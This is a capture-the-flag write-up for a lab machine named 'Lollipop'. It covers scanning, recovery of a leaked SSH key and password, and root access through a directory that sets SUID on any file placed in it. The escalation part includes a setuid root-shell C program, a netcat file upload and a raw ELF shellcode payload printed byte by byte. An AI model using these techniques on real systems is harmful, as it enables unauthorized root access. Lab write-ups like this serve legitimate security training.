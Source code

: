 # Lollipop

__MACHINE IP__: 10.1.1.47

__DATE__: 29/05/2019

__START TIME__: 11:30 PM


`NMAP`
--------

![alt text](Images/nmap.png)

`dirsearch`
--------

![alt text](Images/dir.png)

Okay so there are few interesting directories there.

a) `.ssh/` - this contains a password protected private key

![alt text](Images/ssh.png)

b) `passwords.xml` - containing the password

![alt text](Images/password.png)

c) For username I tried `mail.php` first but it didn't had anything. But then I got it from `function.php`

![alt text](Images/username.png)

Username - `mrl0llipop`
Password - `:3:!4]AFCH:3#D[%`

So now we have all the things to login via ssh.

**Note** - Remember to do `chmod 600 ssh-key` before using it to login

User pwn
---------

Just login and we get the user.

![alt text](Images/user.png)

Now let's enumerate the system to find something to exploit :smirk:

System enumeration
------------------

I tried to make a new file to copy paste the content of `LinEnum` but we don't have permission to make new files. So we'll have to enumerate manually.

Tried looking for cron jobs and other stuff but nothing interesting. Then I decided to look for `SUID files.

![alt text](Images/suid.png)

Okay got nothing in those suid's. After looking around for a while I found a folder named `suided_binaries`. That folder had a special property, if we put any file in it, it will change that file to SUID meaning that file will be listed when we'll  use command like `find / -perm -u=s -type f 2>/dev/null`

This thing is more than exploitable.

Priv escalation
---------------

At first I tried the following things

```python
#!usr/bin/python
import os
os.system("/bin/sh")
```

then

```python
#!usr/bin/python
with open("/root/root.txt", "r") as f:
    print(f.read())
```

then

```bash
cat /root/root.txt
```

But all of these either gave `permission denied` error or spwaned a local user shell.

After lot of looking around I decided to see what's going on so I edited my bash script to

```bash
cat /root/root.txt

whoami

id
```
and I got the following

![alt text](Images/wtf.png)

It shows that the file is owned by root but `whoami` command gives `mrl0llipop`
Later I came to know what was happening `setuid/getuid` doesn't work for `bash` script or `interpreted` languages.

Thanks to @uafio and __@pusher__ for that.

Read: https://unix.stackexchange.com/questions/247771/why-wont-this-example-of-setuid-work

So I can make a binary file and upload the file.

```c
int main(void)
{
   setgid(0);
   setuid(0);
   execl("/bin/sh","sh",0);
}
```

I would've written this code but thanks to __@enio__ he just provided me with the code.

So I compiled the binary and used netcat for uploading the file. How?

**On Machine**

```bash
nc -l -p 1234 -q 1 > binary < /dev/null
```

**On you system**

```bash
cat binary | nc 10.1.1.47 1234
```

Run the binary and you'll get a root shell. Get that damn flag :smile:


![alt text](Images/root.png)

***

There is another way to do the priv escalation. You can use `pwntools` to generate the binary file payload and run that to get the shell.

```python
from pwn import *
import pwnlib
context.arch = 'amd64'
pwnlib.asm.make_elf(asm(pwnlib.shellcraft.amd64.linux.sh()))
```
and use the output on the machine like

```bash
$ printf '\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00>\x00\x01\x00\x00\x00\xb0\x00`\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\xf8\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x008\x00\x02\x00@\x00\x03\x00\x02\x00\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`\x00\x00\x00\x00\x00\x00\x00`\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00\x00\x00\x00\x00Q\xe5td\x07\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05\x00\x00.shstrtab\x00.shellcode\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0b\x00\x00\x00\x01\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\xb0\x00`\x00\x00\x00\x00\x00\xb0\x00\x00\x00\x00\x00\x00\x001\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe1\x00\x00\x00\x00\x00\x00\x00\x16\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' > pwn
$ chmod +x pwn
```
wait a bit and then run it
```
mrl0llipop@Lollip0p:/suided_binaries$ ./pwn
# whoami
root
```

![alt text](Images/root2.png)


Thanks to @Grazfather for this method.

__End Date__: 31/05/2019

__End Time__: 12:35 AM
